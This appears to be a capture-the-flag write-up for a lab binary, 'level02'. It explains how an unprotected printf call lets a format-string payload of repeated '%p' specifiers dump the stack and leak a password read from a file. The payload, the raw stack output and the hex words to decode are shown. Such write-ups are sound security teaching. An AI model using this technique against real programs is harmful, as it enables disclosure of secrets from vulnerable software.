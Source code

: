 # level02

The level02 has only one main function, which reads the stdin.

We see that the program opens the file containing the desired password, and that the contents of the file are stored in the `local_a8` variable, which is declared on the stack. 

The function expects a username and password, but unlike the previous levels, there's no question of entering a precise value to be able to execute a shell or make an overflow.  

We can see a bash system call, but to enter the if, we need to enter the right password...  

On the other hand, at the end of the code, we can see an unprotected printf call : `printf(local_78);`  

And it's this flaw that we're going to exploit to recover our password. All we need to do is use %p to display the values in the stack.
The various variables are stored on the stack from top to bottom. All we need to do is locate our buffer, which is declared just after local_a8, and move up 5 values (as we read 41 characters):
```bash
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
--[ Password: *****************************************
AAAAA 0x7fffffffe4f0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x7025204141414141 0x2520702520702520 0x2070252070252070 0x7025207025207025  does not have access!
```

And here are our hexadecimal values:
```
0x756e505234376848 
0x45414a3561733951 
0x377a7143574e6758 
0x354a35686e475873 
0x48336750664b394d
```

Now we just need to reverse the order and convert our values to get our password!
